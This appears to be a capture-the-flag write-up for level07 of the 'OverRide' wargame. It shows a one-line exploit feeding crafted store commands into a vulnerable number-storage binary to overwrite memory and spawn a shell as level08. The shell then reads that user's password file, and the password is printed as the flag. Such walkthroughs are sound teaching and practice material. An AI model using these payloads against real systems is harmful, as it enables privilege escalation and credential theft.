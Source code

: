 ```python
(python -c 'print "store\n4160264172\n116\nstore\n4159090384\n1073741938\nquit"'; cat) | ./level07
```

**The resulte:**

```python
level07@OverRide:~$ (python -c 'print "store\n4160264172\n116\nstore\n4159090384\n1073741938\nquit"'; cat) | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
whoami
level08
 cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

```

## Flag

```python
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```